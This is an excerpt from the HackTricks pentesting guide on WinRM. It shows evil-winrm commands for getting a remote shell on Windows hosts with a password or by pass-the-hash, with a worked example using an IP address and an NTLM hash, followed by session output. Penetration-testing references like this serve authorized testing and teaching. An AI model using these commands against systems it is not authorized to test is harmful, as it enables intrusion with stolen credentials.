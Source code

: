 <div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)

[**#Using evil-winrm**]

Read **documentation** on its github: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

To use evil-winrm to connect to an **IPv6 address** create an entry inside _**/etc/hosts**_ setting a **domain name** to the IPv6 address and connect to that domain.

Pass the hash with evil-winrm:
```
evil-winrm -u <username> -H <Hash> -i <IP>
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`evil-winrm -i 192.168.56.103 -u 'Administrator' -H '8982babd4da89d33210779a6c5b078bd'`:
```    
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                         
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint ←
```
